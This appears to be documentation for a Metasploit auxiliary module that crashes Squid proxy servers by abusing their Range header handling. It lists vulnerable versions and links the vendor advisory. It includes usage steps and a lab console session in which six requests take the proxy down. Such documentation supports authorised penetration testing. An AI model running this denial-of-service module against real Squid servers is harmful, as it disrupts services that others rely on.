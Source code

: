 ## Vulnerable Application

This module exploits a vulnerability in the Squid Caching Proxy server and its handling
of the `Range` HTTP header.

Due to the way Squid handles the HTTP request header `Range`, an assertion can be
caused due to a standard HTTP request. Once all of Squid's children workers have
asserted, a Denial of Service of the proxy is achieved.

Vulnerable versions of Squid include:
* 2.5.STABLE2-2.7.STABLE9.
* 3.0-4.1.4.
* 5.0.1-5.0.5.

Security bulletin from Squid: https://github.com/squid-cache/squid/security/advisories/GHSA-pxwq-f3qr-w2xf

## Verification Steps

1. Start msfconsole
2. use auxiliary/dos/http/squid_range_dos.rb`
3. Set `rhost
4. Set `rport`
5. run

## Options

### REQUEST_COUNT

REQUEST_COUNT is both the the number of HTTP requests which are sent to the server in
order to perform the actual Denial of Service (i.e. accepted requests by the server), 
and the number of requests that are sent to confirm that the Squid host is actually 
dead.

## Scenarios

In this scenario the target server is running on the same host as Metasploit (192.168.159.128).
```
msf6 > use auxiliary/dos/http/squid_range_dos i
msf6 auxiliary(dos/http/squid_range_dos) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > show options 

Module options (auxiliary/dos/http/squid_range_dos):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   REQUEST_COUNT  50               yes       The number of requests to be sent, as well as the number of re-tries to confirm a dead host
   RHOSTS         192.168.159.128  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          3128             yes       The target port (TCP)
   SRVHOST        192.168.159.128  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT        8080             yes       The local port to listen on.
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   DOS   Perform Denial of Service Against The Target


msf6 auxiliary(dos/http/squid_range_dos) > run
[*] Running module against 192.168.159.128

[*] Sending 50 DoS requests to 192.168.159.128:3128
[*] Using URL: http://192.168.159.128:8080/Sv2fFH3gmGeN4VC
[*] Sent DoS request 1 to 192.168.159.128:3128
[*] Sent DoS request 2 to 192.168.159.128:3128
[*] Sent DoS request 3 to 192.168.159.128:3128
[*] Sent DoS request 4 to 192.168.159.128:3128
[*] Sent DoS request 5 to 192.168.159.128:3128
[*] Sent DoS request 6 to 192.168.159.128:3128
[+] DoS completely successful.
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(dos/http/squid_range_dos) >
```

At this point, the target Squid server should be completely inaccessible: all children 
workers should have exited, and the main process should have also shut down.
